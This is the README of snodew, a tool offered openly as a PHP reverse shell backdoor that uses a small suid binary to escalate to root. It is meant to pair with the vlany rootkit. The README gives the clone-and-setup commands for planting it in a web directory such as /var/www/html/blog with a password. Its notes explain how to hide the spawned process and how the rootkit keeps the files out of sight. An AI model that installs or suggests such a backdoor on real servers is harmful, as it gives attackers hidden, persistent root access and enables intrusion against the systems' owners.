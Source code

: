 # snodew
*snodew is a PHP reverse shell backdoor which uses a small suid binary to escalate privileges on connection*</br></br>snodew is made mainly to work alongside [vlany](https://github.com/mempodippy/vlany) but can also be setup as a regular root backdoor

## usage
```
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh [install dir] [password] [hidden extended attribute] [magic gid]
```

### example usage for regular (non-vlany infected) systems
```
cd /tmp
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh /var/www/html/blog sexlovegod X 0 # 'X' and '0' since extended attribute doesn't really matter,
                                             # and our suid binary will set our gid to 0
```
<img src="http://i.imgur.com/YneuIpp.png"/></br>
*Result of successful setup*

<img src="http://i.imgur.com/AwlnKt6.png"/></br>
*Result after following instructions given on our new page*

## notes
 * requires a web service to be running on the box
 * sh process spawned from service user is visible, though this could be subverted by checking /proc/self/cmdline and hiding the process if it contains the hidden suid bin
 * if not being used alongside some kind of rootkit, everything you do is visible
 * it's only a reverse shell
 * when vlany is installed, simply su'ing to the service user won't allow them to see the files. vlany checks to see if an apache environment variable is also exported before giving access to the file, and does the same for nginx so that - by default - the file can only be accessed from a browser or from an owner shell
  * exporting the apache environment variable that vlany checks, after su'ing to the service user will circumvent this
 * suid possibly disabled
 * not using 'exit' to exit the shell will leave the process spawned by the service in process lists (ps, top etc)
